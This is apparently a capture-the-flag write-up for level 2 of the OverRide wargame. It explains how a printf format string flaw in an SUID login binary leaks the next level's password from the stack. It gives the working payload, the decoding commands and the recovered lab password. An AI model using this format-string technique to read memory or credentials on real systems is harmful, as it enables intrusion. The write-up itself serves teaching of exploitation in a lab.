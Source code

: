 # Level 2

## Vulnerability

printf() format string attack, read password on stack

## Context

We find a binary with owner ```level03``` and SUID.
```
level02@OverRide:~$ ls -l
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
```

When run it prompts user to log in with username and password. It exits if given incorrect password.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: me!
--[ Password: mine!
*****************************************
me! does not have access!
```

## Solution

### main() overview

Investigating with gdb we find no other functions apart from ```main()```. See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level02/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` reads the correct password for user ```level03```, from the ```/home/users/level03/.pass``` file, into a variable on the stack.

Then ```main()``` prompts user for username and password, reading from stdin.

Finally ```strncmp()``` compares the password input by user with the correct password. If the password is correct ```system("/bin/sh")``` opens a shell.

### Exploit

The key vulnerability is the username provided is then printed with ```printf()```. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.
```
level02@OverRide:~$ (python -c 'print("%26$p%25$p%24$p%23$p%22$p")'; python -c 'print("pass")'; cat) | ~/level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```

Converted to ASCII, and reversed to revert endian, we find our password.
```
level02@OverRide:~$ echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's log in to confirm this is the correct password.
```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
...
level03@OverRide:~$
```
